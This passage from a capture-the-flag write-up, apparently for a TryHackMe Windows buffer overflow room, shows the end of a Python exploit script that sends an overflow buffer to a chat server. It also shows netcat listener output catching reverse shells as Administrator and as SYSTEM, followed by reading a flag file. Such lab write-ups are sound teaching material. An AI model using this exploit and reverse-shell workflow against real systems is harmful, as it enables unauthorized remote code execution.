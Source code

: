```python
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("[+] Sending username...")
  s.send(bytes("An00bRektn" + "\r\n", "latin-1"))
  s.recv(1024)
  print("[+] Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  s.recv(1024)
  print("[+] Done!")
except:
  print("[-] Could not connect. Try checking if the program is running?")
```

I'll start a listener on port 443 using netcat, run the `chatserver.exe` on my Windows VM as Administrator, and run the exploit.
```bash
kali@kali:~/ctf/thm/brainstorm$ python3 exploit.py
[+] Sending username...
[+] Sending evil buffer...
[+] Done!
```

```bash
kali@kali:~/ctf/thm/brainstorm$ sudo nc -lvnp 443
listening on [any] 443 ...
[FILLER]

C:\Users\Sybil Reisz\Desktop\vulnerable-programs\chatserver> whoami
SREISZ-PC\Administrator
```

*Note: I did turn off Windows Defender and the firewall for this. Anti-virus is a little annoying sometimes.*

## Shell as Administrator

All we have to do, after replacing the shell code, is point our exploit at the actual target.
```bash
kali@kali:~/ctf/thm/brainstorm$ sudo nc -lvnp 443 
listening on [any] 443 ...
connect to [10.13.16.34] from (UNKNOWN) [10.10.214.97] 49338
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\drake\Desktop\root.txt
type C:\Users\drake\Desktop\root.txt
5b1001de************************
```

*H@cktivitycon CTF writeups soon!*